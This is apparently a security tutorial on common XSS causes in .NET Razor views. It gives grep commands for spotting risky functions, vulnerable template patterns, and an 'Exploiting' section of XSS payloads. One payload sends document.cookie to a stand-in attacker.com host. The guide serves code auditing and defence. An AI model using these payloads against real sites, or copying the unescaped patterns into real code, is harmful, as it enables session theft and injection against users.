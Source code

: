 # .NET_Razor

🔥 Common XSS causes in .NET (Razor) 🔥

A common way to return dynamic content to the web application user is by using HTML templates. Most applications built with ASP.NET model-view-controller (MVC) framework rely on such functionality heavily because .NET offers a convenient templating engine called Razor. However, there are caveats to using some of its functions, and if the developer doesn’t know them, it is very easy to introduce an XSS or an HTML injection! 

In this post we list common ways of misusing such functionality in C#, and explain how to look for them. In HTML templates, special tags are used as placeholders to describe how the page should look. When a template is rendered, tags are replaced with the real data. Before returning the page to the user, the templating engine substitutes placeholders with real data, and escapes it so as not to break the markup. However, sometimes it is tempting to disable automatic escaping because the text returned from the database may contain HTML that the developers want to preserve. Naturally, if user-controlled data is not escaped, this leads to numerous vulnerabilities.

To find such misconfigurations:

1. Look for the @Html.Raw function usages within the Views folder:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "\\@𝙷𝚝𝚖𝚕\\.𝚁𝚊𝚠\\("
```
2. Look for the HtmlString function usages:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝙷𝚝𝚖𝚕𝚂𝚝𝚛𝚒𝚗𝚐\("
```
3. Look for the document.write JS function usages:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝚍𝚘𝚌𝚞𝚖𝚎𝚗𝚝\.𝚠𝚛𝚒𝚝𝚎\("
```
4. Look for the API endpoints which return the "text/html" and "image/svg+xml" content-types, they can be declared as vulnerable because there is a context for a XSS: 
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝚝𝚎𝚡𝚝/𝚑𝚝𝚖𝚕|𝚒𝚖𝚊𝚐𝚎/𝚜𝚟𝚐+𝚡𝚖𝚕"
```
5. Check all HTML tag attributes without quotes around template attribute values. This tip will work even when HTML escaping is on! 
```
<𝚒𝚖𝚐 𝚜𝚛𝚌=@𝚄𝚜𝚎𝚛𝙸𝚗𝚙𝚞𝚝>
```
Here Razor will HTML-encode quotes and angular brackets ('"<>), but not spaces! Since HTML is liberal about (not) using quotes in tags, in this example an attacker can easily add new attributes separated by spaces, and sometimes it is just enough for exploitation (e.g. <𝚒𝚖𝚐 𝚜𝚛𝚌=𝚡 𝚘𝚗𝚎𝚛𝚛𝚘𝚛=𝚙𝚛𝚒𝚗𝚝()>). 

6. Look for user-controlled data that is directly concatenated into script tags, event attributes, or dynamic URLs in anchor tags, without proper escaping or validation.

```
<script>
    var searchQuery = "@Model.SearchQuery";
    // ...
</script>
<a href="/search?q=@Model.SearchQuery">Search for "@Model.SearchQuery"</a>
```

7. Check for dynamic content that is being rendered without proper encoding, such as user-controlled data in attributes or the text of the HTML element itself.

```
<div>@Model.UserInput</div>
<input type="text" value="@Model.UserInput">
```

8. Look for places where user-controlled data is being used to build dynamic JavaScript code, particularly when it is being used to build an object literal.
```
<script>
    var obj = {
        name: "@Model.UserName",
        age: @Model.UserAge
    };
    // ...
</script>
```

9. Check for places where user-controlled data is being used to build dynamic CSS code, particularly when it is being used to build a style attribute.
```
<div style="background-color: @Model.BackgroundColor;"></div>
```

10. Look for places where user-controlled data is being used to build dynamic HTML comments.
```
<!-- User's comment: @Model.UserComment -->
```

# Exploiting

- Query to exploit @Html.Raw vulnerability, if the code includes the following line:
Code example: @Html.Raw(Model.Name)
```
<script>alert('XSS attack');</script>
```
- Query to exploit HtmlString vulnerability:
Code example: @HtmlString("<img src='" + image + "'>")
```
<img src="javascript:alert('XSS attack')">
```
- Query to exploit document.write vulnerability:
- Code example: <script>document.write("<p>" + userContent + "</p>");</script>
```
<script>document.write("<img src='http://attacker.com/steal-cookie.php?cookie=" + document.cookie + "'>");</script>
```
- Query to exploit "text/html" and "image/svg+xml" content-type vulnerabilities:
If the code includes an API endpoint that returns an SVG image and/or other content in that format, you can inject the code above as SVG image content and/or other content to attack.
```
<svg onload=alert('XSS attack')>
```
- Query to exploit attribute value without quotes vulnerability:
<img src=@image>
```
<𝚒𝚖𝚐 𝚜𝚛𝚌=𝚡 𝚘𝚗𝚎𝚛𝚛𝚘𝚛=𝚙𝚛𝚒𝚗𝚝()>
```
